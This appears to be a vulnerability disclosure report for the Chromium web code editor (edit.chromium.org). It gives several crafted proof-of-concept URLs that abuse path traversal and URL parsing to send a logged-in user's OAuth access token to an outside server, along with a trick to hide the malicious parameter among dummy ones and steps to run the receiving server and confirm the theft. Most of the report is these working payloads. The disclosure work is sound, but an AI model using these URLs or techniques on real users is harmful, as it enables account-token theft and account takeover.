 PoC URL 1, sends creds to PoC server on `https://aogarantiza.com:1338` (loads legitimate file and also spoofs directory listing):
`https://edit.chromium.org/edit?repo=android/platform/build/&file=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2Fheads%2Fmaster%2FChanges.md%3Fhttps%3A%2F%2Faogarantiza.com%3A1338%23android.googlesource.com%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2F`

PoC URL 1 loads a file from a \*.googlesource.com repo and populates the directory listing with attacker-controlled content (seems limited to text via `name` and a CSS class injection via `type`).

Same as PoC URL 1 but with additional dummy params to obscure suspicious param in address bar:
`https://edit.chromium.org/edit?repo=android%2Fplatform%2Fbuild%2F&files=platform%2Fbuild%2Frefs%2F%2Bshow%2Frefs%2Fheads%2Fmaster%2FChanges.md&project=android&theme=default&editmode=default&showfilelist=1&showsidebar=1&showfooter=1&quickstart=1&showfeedback=1&autosave=1&file=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2Fheads%2Fmaster%2FChanges.md%3Fhttps%3A%2F%2Faogarantiza.com%3A1338%23android.googlesource.com%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2F`

PoC URL 2, sends creds to PoC server on `https://aogarantiza.com:1337` (does not spoof directory listing):
`https://edit.chromium.org/edit?file=https%3A%2F%2Fandroid.googlesource.com%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2Fheads%2Fmaster%2FChanges.md%2Faogarantiza.com%3A1337%23android.googlesource.com%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2Fheads%2Fmaster%2FChanges.md`

PoC URL 3, sends creds to non-existent hostname: `https://edit.chromium.org/edit?file=https%3A%2F%2Fandroid.googlesource.com%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2Fheads%2Fmaster%2FChanges.md%2Fexample.example.example%23android.googlesource.com%2Fplatform%2Fbuild%2F%2Bshow%2Frefs%2Fheads%2Fmaster%2FChanges.md`

NOTE: For PoC URL 1 or 2, we highly recommend using a test Google account, since the access token will be sent to `https://aogarantiza.com:1337/1338` which is running the PoC server above. The PoC server will update the "About me" (status) field in Chromium Gerrit [2] but does not log the access token.

Setup if running PoC server yourself:
Run attached server.js with NodeJS (provide your own privkey.pem and fullchain.pem; we generated it using certbot from Let's Encrypt). The server must run over HTTPS.
When running PoCs, replace "aogarantiza.com:1337/1338" in PoC URL 1/2 with the origin of your server.

PoC, token sent to attacker server, OAuth app previously authorized scenario:
Navigate to PoC URL 1 or 2. After page loads, a token is sent to the attacker’s PoC server.

To demonstrate that the token has been stolen, the PoC server updates the user profile’s "About me" field in Chromium Gerrit [2]. To verify this, navigate to `https://chromium-review.googlesource.com/settings/` while logged-in to the same Google account and observe the updated field.

PoC, token sent to attacker server, OAuth app not authorized scenario:
Navigate to PoC URL 1 or 2.
Click on "Log in" when prompted by the editor.
Go through OAuth flow (select Google account if prompted, then click "Allow" for the OAuth app).
After auth is completed, a token is sent to the attacker’s PoC server.

To demonstrate that the token has been stolen, the PoC server updates the user profile’s "About me" field in Chromium Gerrit [2]. To verify this, navigate to `https://chromium-review.googlesource.com/settings/` while logged-in to the same Google account and observe the updated field.

PoC, observing DevTools Network tab:
Open a new tab.
Open DevTools and switch to the Network tab.
Navigate the same tab to PoC URL 1, 2, or 3.
If logged out, follow steps 2-3 from the authorized scenario above.
After editor loads, observe a request to attacker URL (`https://aogarantiza.com:*`) with an access token of the OAuth app [1]. To more easily find the request, use the filter `domain:aogarantiza.com` (using the domain actually used in attack)
